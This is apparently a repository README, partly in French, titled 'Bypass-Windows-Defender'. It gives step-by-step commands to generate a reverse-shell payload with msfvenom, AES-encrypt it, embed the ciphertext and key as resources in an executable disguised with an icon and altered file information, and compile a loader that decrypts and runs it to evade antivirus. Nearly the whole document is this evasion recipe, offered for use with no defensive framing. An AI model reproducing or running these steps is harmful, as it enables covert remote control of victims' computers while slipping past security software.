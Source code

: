 # BWD
Bypass-Windows-Defender

Bypass Windows Defender by encrypt the payload and execute it with the key at the same time. 

Prérequis
```
sudo apt update
sudo apt upgrade
sudo apt install wingw-w64
```


Récupérer demo.rc sur https://blog.didierstevens.com/2018/09/17/quickpost-compiling-exes-and-resources-with-mingw-on-kali/

icons dispo sur icons-icons.com au format .ico 512 pixels
```
x86_64-w64-mingw32-windres demo.rc -o demo.o
```
<br>

Ajouter une icon sur le .exe : 
```
x86_64-w64-mingw32-g++ -o helloworld.exe helloworld.cpp demo.o
```

Pour changer les informations du .exe changer le nom de demo.rc

<br>

Creation of the revershell with msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=@IP_host PORT=@Port_listen -f raw > 8443.bin
```

<br>

Meterpreter in helloworld2.cpp
```
x86_64-w64-mingw32-g++ -o helloworld.exe helloworld2.cpp demo.o
```

<br>

Python programm aes.py to have a cipher.bin and a key.bin (https://raw.githubusercontent.com/TheD1rkMtr/FilelessPELoader/) 

Ajouter dans demo.rc

```
#define IDI_BIN2    103

...
IDI_BIN1        BIN1        "cipher.bin"
IDI_BIN2        BIN2        "key.bin"
```

Copy of the fonction decryptaes in reverse.cpp : 
(https://raw.githubusercontent.com/TheD1rkMtr/FilelessPELoader/main/FilelessPELoader/FilelessPELoader.cpp)

```
x86_64-w64-mingw32-windres demo.rc -o demo.o
x86_64-w64-mingw32-g++ -o helloworld.exe helloworld.cpp demo.o --static
```











